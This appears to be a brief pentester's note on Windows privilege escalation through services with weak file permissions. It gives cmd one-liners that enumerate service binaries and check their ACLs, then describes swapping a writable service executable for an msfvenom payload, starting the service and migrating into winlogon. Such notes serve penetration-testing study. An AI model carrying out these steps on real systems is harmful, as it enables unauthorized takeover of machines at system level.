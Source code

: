 # Windows Privilege Escalation via Weak Services

## Identify Weak Services
Find services with "weak permissions".
    # Command 1
    ## List services, filter system32 and dumps output.
    for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt

    # Command 2
    ## Parses .txt and runs icacls.
    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

Important aspects to look at:
- "BUILTIN\Users"
- Full access -> (F)

Replace the original .exe-file with your own generated payload (msfvenom). Afterwards start the service:

    wmic service SERVICE_NAME call startservice

It is important to migrate fast enough, since it might time-out. So, run a "ps" fast enough, and migrate to "winlogon" for example!
